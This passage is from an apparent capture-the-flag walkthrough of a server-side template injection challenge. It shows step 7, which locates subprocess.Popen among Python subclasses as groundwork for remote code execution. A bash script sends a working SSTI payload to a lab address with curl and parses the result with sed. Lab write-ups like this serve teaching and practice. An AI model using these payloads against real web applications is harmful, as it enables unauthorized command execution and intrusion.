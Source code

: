 ![img-15](./img/img-15.png)

Now you have a full list of all the classes available within the application. All apps are different, so they will be exploited differently. Like we previously mentioned, we developed this challenge so many different methods for exploitation could be employed; however, the focus of this challenge is on executing remote commands.

7. We'll perform remote code execution (RCE) now. Find the following class: `subprocess.Popen`. You can do this by pressing **ctrl+F** in the browser and searching for `subprocess.Popen`. Note the index/position where it is found. You can count the classes one by one until you reach `subprocess.Popen`, but this will take a long time. So, even though we are solving this challenge using the web interface, we will create a
script to find the index more easily.

Here is our script:
```
#!/bin/bash

### STEP 1: Once you see all available classes in the application, copy and paste the website link and use it to make a curl like: 
    
step_1=$(curl -o SSTI.txt http://10.10.10.110/feedback/?subject=%7B%7B2022.__class__.__mro__%5B1%5D.__subclasses__%28%29%7D%7D&comments=Nothing%2C+really.%0D%0A%09%09)
    
### STEP 2: This 'sed' command replaces each '&lt;' with a new line which is equivalent to adding a new line before each '<'. 
    
step_2=$(sed 's/&lt;/\'$'\n/g' SSTI.txt | tee SSTI_1.txt)
    
### STEP 3: This 'sed' command deletes every line that doesn't contain 'class &#39;' which is equivalent to the word 'class' and an apostrophe: class '
    
step_3=$(sed '/class &#39;/!d' SSTI_1.txt | tee SSTI_2.txt)

### STEP 4: This lets you know where `subprocess.Popen' is found. 
    
step_4=$(sed -n '/subprocess.Popen/=' SSTI_2.txt)
    
sleep 1;
    
echo "Performing curl. $step_1"
```